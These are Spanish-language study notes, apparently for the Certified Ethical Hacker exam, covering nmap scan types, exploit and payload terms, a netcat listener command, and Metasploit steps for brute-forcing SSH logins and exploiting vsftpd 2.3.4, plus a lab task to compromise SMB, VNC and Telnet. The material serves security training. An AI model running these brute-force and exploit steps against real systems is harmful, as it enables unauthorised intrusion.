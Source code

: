 # CEH TIPS



---
nmap [IP] - Aquí se hacer el Three Way Hanshake completo
nmap -sS  - Aquí no se hace el TWH completo

----
Activo - Tiempo Real
Pasivo - Etapas 

Exploit - Quien me lleva hacia el destino (Software)
Payload - Hace la acción (Software)
	Tipo 1: Local, cuando se ejecuta de forma local en el mismo sistema
	Tipo 2: Remoto, cuando son ejecutados en forma remota, el atacante debe tener acceso al sistema victima 
	Tipo 3: Cliente, requiere la intervención del usuario del lado del cliente y son asíncronos 

* Abrir un puerto de una IP que este cerrado - nc -nlvp 2030 



* Explotar el puerto 22 SSH con Metasploit 
	* > search ssh 
	* > auxiliary/scanner/ssh/ssh_login
	* Necesitamos dos archivos (USERPASS_FILE, PASS_FILE) y debemos de agregarlos al Metasploit
		* > set PASS_FILE /home/omar/Desktop/claves.txt
		* > set USER_FILE /home/omar/Desktop/usuarios.txt
	* Cuando encuentra la clave y el usuario, podemos ver con el siguiente comando si se estableció una sesión
		* > session -l             ->      Miramos las sesiones establecidas
	* Nos conectamos a la sesión, Metasploit intentara abrir la conexión y así podremos usar los comandos 
		* > sessions -i ID       ->     Colocamos el ID que en este caso es 1,



* Explotar el puerto 21 FTP con Metasploit 
	* > search ftp vsftpd 2.3.4
		* > use 0
		* > set RHOSTS {IP}



* Explotar el puerto 21 FTP con Metasploit 

Tarea: Vulnerar el servicio 139 netbios-ssn, 5900 vnc, 445 smb, 23 Telnet

---

Servicio de Windows 
* MSRPC - Enumerar ese servicio
* Microsoft-ds - Enumerar el servicio 

